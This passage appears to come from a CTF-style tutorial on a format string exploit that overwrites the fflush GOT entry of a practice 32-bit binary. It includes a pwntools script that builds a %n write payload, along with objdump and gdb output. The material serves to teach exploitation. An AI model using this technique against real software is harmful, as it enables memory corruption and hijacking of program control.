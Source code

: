 ```
$    objdump -R 32_new | grep fflush
0804a028 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

With the second write, we will write the second and third. The fourth write will write the highest byte of the address. However we will get around the fact that subsequent writes can only be greater than or equal to the previous write by overflowing the next spot in memory with it. So whatever value we write for the third write, only the least significant byte will end up in the highest byte for the got entry for `fflush`. To make more sense, let's look at the memory layout of the got entry while we carry out this attack. For that here's a small sample script which will carry out the attack and drop us in gdb to see:

```
#Import pwntools
from pwn import *

#Establish the target process, or network connection
target = process('./32_new')

#Attach gdb if it is a process
gdb.attach(target, gdbscript='b *0x080487dc')

#Print the first line of text
print target.recvline()

#Establish the addresses which we will be writing to
fflush_adr0 = p32(0x804a028)
fflush_adr1 = p32(0x804a029)
fflush_adr2 = p32(0x804a02b)

#Establish the necessary inputs for our input, so we can write to the addresses
fmt_string0 = "%10$n"
fmt_string1 = "%11$n"
fmt_string2 = "%12$n"

#Form the payload
payload = fflush_adr0 + fflush_adr1 + fflush_adr2 + fmt_string0 + fmt_string1 + fmt_string2

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

When we run the script and check the memory layout in gdb, we see this:

```
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80487d0 <main+172>       lea    eax, [ebp-0x138]
    0x80487d6 <main+178>       push   eax
    0x80487d7 <main+179>       call   0x80485d0 <printf@plt>
 →  0x80487dc <main+184>       add    esp, 0x10
    0x80487df <main+187>       mov    eax, ds:0x804a044
    0x80487e4 <main+192>       sub    esp, 0xc
    0x80487e7 <main+195>       push   eax
    0x80487e8 <main+196>       call   0x80485c0 <fflush@plt>
    0x80487ed <main+201>       add    esp, 0x10
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "32_new", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80487dc → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x080487dc in main ()
```